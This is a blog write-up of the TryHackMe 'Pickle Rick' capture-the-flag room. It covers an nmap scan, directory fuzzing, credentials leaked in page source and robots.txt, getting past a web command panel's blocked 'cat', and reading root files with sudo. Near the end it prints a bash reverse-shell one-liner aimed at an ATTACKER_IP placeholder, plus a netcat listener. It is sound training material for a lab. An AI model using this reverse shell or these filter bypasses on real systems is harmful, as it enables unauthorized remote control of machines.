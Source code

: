 ```yaml
---
layout: post
title: Pickle Rick CTF
date: 2025-06-20 23:47 +0300
categories: [CTF,THM]
tags: [CTF,THM, write-up]
---
```


# Pickle Rick CTF
link: [https://tryhackme.com/room/picklerick](https://tryhackme.com/room/picklerick)

This Rick and Morty-themed challenge requires you to exploit a web server and find three ingredients to help Rick make his potion and transform himself back into a human from a pickle.


Let's start:\
the ip of my Target Machine is: `10.10.54.36` (yours will be different).

so let's start with a [NMAP] scan:
`nmap -sS -sV -O -v 10.10.54.36`

Explanation:
- -sS - SYN scan is the default and most popular scan option, It can be performed quickly, It is also relatively unobtrusive and stealthy since it never completes TCP connections
- -sV - Enables version detection
- -O - Enables OS detection
- -v - Increases the verbosity level, causing Nmap to print more information about the scan in progress.

Result:
![scan](https://i.imgur.com/QXAEZGa.png)

As we can see from the scan

Open Ports:
```terminal
22/tcp ssh OpenSSH 8.2p1 Ubuntu 4ubuntu0.11
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
```

OS:
`OS details: Linux 4.15`

So with 80 port open let's open a browser and go to `10.10.54.36:80` 
![first look](https://i.imgur.com/w29lBzP.jpeg)

First let's check if there is something hidden in the html by opening dev-tools:

![https://i.imgur.com/BSmwRua.png](https://i.imgur.com/BSmwRua.png)
There is a comment in the html giving us a username:
`Username: R1ckRul3s`

Now that we have a user we need to find a password (maybe crack it or brut-force it?) and something to login to.

Let's check if there is more routes for `http://10.10.54.36:80/`, im useing [ffuf]:
`ffuf -w /usr/share/wordlists/dirb/common.txt -u http://10.10.54.36:80/FUZZ`

Explanation:
- -w - a word list
- -u - Target URL

ffuf will go through the words in the word list and use them where the `FUZZ` is, and print successful requests.

Result:
![ffuf](https://i.imgur.com/vBhDtFA.png)
(some alternative tools: gobuster, dirb)


As we can see we have new leads:
```terminal
/assets (200 OK)                  
/.hta (403 Forbidden)                  
/.htaccess (403 Forbidden)              
/.htpasswd (403 Forbidden)               
/index.html (200 OK)              
/robots.txt (200 OK)             
/server-status (403 Forbidden)
```
\
Let's check out `/robots.txt`:
![robots.txt](https://i.imgur.com/eRM88zo.png)
So in the [robots.txt] we got `Wubbalubbadubdub` but we still not sure what to use it for and where....
maybe it's a password?

After trying to use this to connect to the [SSH] with: `ssh R1ckRul3s@10.10.54.36` I can see that the SSH is configured to use keys instead of passwords.

We also see that `/assets` is open let's go there:
![assets](https://i.imgur.com/t4h9apQ.png)

We can see a list of files
checking those file data using [hex editor] did not yeeld any new leads
also there was no [Steganography] in those pictures.

If those pictures are here, there must be a use for them (like `rickandmorty.jpeg` we see at the index) and one of them is a hint for a hidden route ffuf didnt found: `/portal.php` that redirect us to `login.php` 

![portal](https://i.imgur.com/sKf37e7.png)

Let's try the username and the string we found in the robots.txt
```
Username: R1ckRul3s
Password: Wubbalubbadubdub
```

And we are in :D !!!
![command panel](https://i.imgur.com/IhkUzDf.png)

We get a command panel that let us run command in the machine
also can see multiple tabs in the Rick Portal, but when we try to go to them we get denied...

Let's try to see what around us with `ls`:
```terminal
Sup3rS3cretPickl3Ingred.txt
assets
clue.txt
denied.php
index.html
login.php
portal.php
robots.txt
```
We can see all the files in this folder and there it is the first flag `Sup3rS3cretPickl3Ingred.txt`!

Let's print it with `cat Sup3rS3cretPickl3Ingred.txt`

But not so fast seems like that command is disabled!
![fail](https://i.imgur.com/CuyBThz.png)

Let's try to print it using other methods:

```
head Sup3rS3cretPickl3Ingred.txt - disabled
tail Sup3rS3cretPickl3Ingred.txt - disabled
more Sup3rS3cretPickl3Ingred.txt - disabled
less Sup3rS3cretPickl3Ingred.txt - success!!
------------
some more fun ways:
awk '{ print }' Sup3rS3cretPickl3Ingred.txt
sed '' Sup3rS3cretPickl3Ingred.txt
grep -m1 "" Sup3rS3cretPickl3Ingred.txt
cut -c1- Sup3rS3cretPickl3Ingred.txt
nl Sup3rS3cretPickl3Ingred.txt
```

**~And we got the first flag (What is the first ingredient that Rick needs?)~**

Also we see a file name `clue.txt` let see what clue we got:
```terminal
$> sed '' clue.txt

Look around the file system for the other ingredient.
```
So we now the rest of the ingredient (flags) are around the system

After looking around using `ls /...` we found the second ingredient in `/home/rick/` 
```terminal
$> ls /home/rick/
second ingredients
```

And using `less '/home/rick/second ingredients'` 

**~we got the second flag (What is the second ingredient in Rick’s potion?)~**

After looking around more the only place left to look at is `/root/` but we dont have the permissions to go in....

Let's give `sudo` a try: 
```terminal
$> sudo ls /root/
3rd.txt
snap
```
And it worked we have here the third flag!!

`sudo less /root/3rd.txt`

**~we got the third flag (What is the last and final ingredient?)~**

And that's it we helped Rick make his potion and transform himself back into a human from a pickle.


## Alternative way to solve the CTF

After getting into Rick Portal we can generate a [reverse shell] to make our life easer using our own shell:


In our machne let's create a listener using:
`nc -lvnp PORT`

And now let's send the [reverse shell] to the server

`bash -c 'bash -i >& /dev/tcp/ATTACKER_IP/PORT 0>&1'`

And we get a [reverse shell] to the machine that mean we don't have and limitations from the Rick Portal
```
/var/www/html$ cat Sup3rS3cretPickl3Ingred.txt
~first flag~

/var/www/html$ cat '/home/rick/second ingredients'
~second flag~

/var/www/html$ sudo cat /root/3rd.txt
~third flag~
```

\
Hope this was helpful and fun for you to read :)\
Shai Shaked.